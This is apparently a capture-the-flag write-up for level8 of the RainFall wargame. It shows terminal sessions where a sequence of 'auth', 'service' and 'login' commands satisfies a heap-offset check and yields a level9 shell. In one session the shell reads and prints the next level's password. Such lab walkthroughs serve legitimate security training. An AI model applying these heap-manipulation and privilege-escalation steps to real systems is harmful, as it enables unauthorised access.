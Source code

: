 Ok, right after decompiling the executable, I immediately found the flag completely by chance while playing around with possible phrases:

```nasm
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth
(nil), (nil) 
auth 
0x804a008, (nil) 
reset
0x804a008, (nil) 
auth 
0x804a008, (nil) 
auth 
0x804a018, (nil) 
service
0x804a018, 0x804a028 
login
Password:
0x804a018, 0x804a028 
service
0x804a018, 0x804a038 
service
0x804a018, 0x804a048 
service
0x804a018, 0x804a058 
login
$ ls
ls: cannot open directory .: Permission denied
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

By looking at the source code for more than two seconds, it simply appears that auth + 32 must not be equal to 0. The service increments addresses by 0x10 with the help of strdup(). So, by having a non-null memory space at +0x20 from the address in auth, the condition is met:

```nasm
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ whoami
level9
```